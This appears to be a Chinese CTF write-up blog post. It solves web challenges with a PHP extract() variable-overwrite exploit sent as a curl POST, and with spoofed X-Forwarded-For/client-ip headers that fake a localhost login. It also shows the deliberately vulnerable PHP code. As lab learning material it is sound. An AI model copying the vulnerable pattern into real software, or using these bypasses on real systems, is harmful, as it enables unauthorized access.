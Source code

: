 ```yaml
---
title: "CG CTF Web #2"
date: 2020-02-07T22:35:36+08:00
tags:
  - CTF
  - Web
categories:
  - Penetration
---
```


## 0x00 [变量覆盖](http://chinalover.sinaapp.com/web18/index.php)

给出代码如下

```php

<?php
include("secret.php");
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    extract($_POST);
    if ($pass == $thepassword_123) {
        echo $theflag;
    }
} ?>

```



其中重要的是这一句 `if ($pass == $thepassword_123)` ，题目名叫变量覆盖，猜想需要传入这两个变量覆盖默认的变量。

在本地终端运行 `curl http://chinalover.sinaapp.com/web18/index.php -X POST -d "pass=1&thepassword_123=1"`

成功取得 Flag

## 0x01 [PHP 是世界上最好的语言](http://way.nuptzj.cn/php/index.php)

又是这个域名，访问不了啊啊啊

## 0x02 [伪装者](http://chinalover.sinaapp.com/web4/xxx.php)

通过搜索发现可以在 header 中加入 X-Forwarded-For: 127.0.0.1 达到本地登陆的效果，但是无效，加入 client-ip: 127.0.0.1 后成功

## 0x03 [HEADER](http://way.nuptzj.cn/web5/)

又又又又又又挂了

## 0x04 [上传绕过](http://teamxlc.sinaapp.com/web5/21232f297a57a5a743894a0e4a801fc3/index.html)
